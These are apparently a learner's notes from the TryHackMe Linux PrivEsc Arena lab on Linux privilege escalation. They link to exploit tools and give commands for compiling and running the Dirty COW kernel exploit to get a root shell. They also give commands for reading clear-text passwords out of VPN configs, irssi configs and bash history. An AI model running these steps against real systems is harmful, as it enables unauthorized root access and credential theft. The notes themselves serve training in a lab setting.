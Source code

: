 # Information

Privilege escalation happens when a malicious user exploits a bug, design flaw, or configuration error in an application or operating system to gain elevated access to resources that should normally be unavailable to that user. The attacker can then use the newly gained privileges to steal confidential data, run administrative commands or deploy malware – and potentially do serious damage to your operating system, server applications, organization, and reputation.  

Once we have a limited shell it is useful to escalate that shells privileges. This way it will be easier to hide, read and write any files, and persist between reboots.   

All the information provided is completely taken from the TryHackMe platform from the room Linux PrivEsc Arena by TCM, check out the room [Here](https://tryhackme.com/room/linuxprivescarena).  

# Tools

To download the tools click below, this tools are used for enumeration and exploiting.  

1. [dirtycow](https://github.com/dirtycow/dirtycow.github.io)
2. [exim](https://gist.github.com/suryadana/ecab495f9e431b8179f67ddcd32a265a)
3. [linenum](https://github.com/rebootuser/LinEnum)
4. [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
5. [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
6. [nfsshell](https://github.com/NetDirect/nfsshell)
7. [nginx](https://github.com/xl7dev/Exploit/tree/master/Nginx)

# 1. Privilage Escalation- Kernel Exploit
## Detection
1. `linux-exploit-suggester.sh`	{ suggests the expolits with cve }	-->  **vulnerable to dirtycow**

## Exploitation
1. `gcc -pthread c0w.c -o c0w`

2. `./c0w`

3. `passwd`		>> root shell

# 2. Privilage Escalation - Stored Passwords (config files)

1. In command prompt type: `cat /home/user/myvpn.ovpn`
2. From the output, make note of the value of the “auth-user-pass” directive.
3. In command prompt type: `cat /etc/openvpn/auth.txt`
4. From the output, make note of the clear-text credentials.
5. In command prompt type: `cat /home/user/.irssi/config | grep -i passw`
6. From the output, make note of the clear-text credentials.

# 3. Privilage Escalaction - Stored Passwords ( history )
command : `cat ~/.bash_history | grep -i passw`
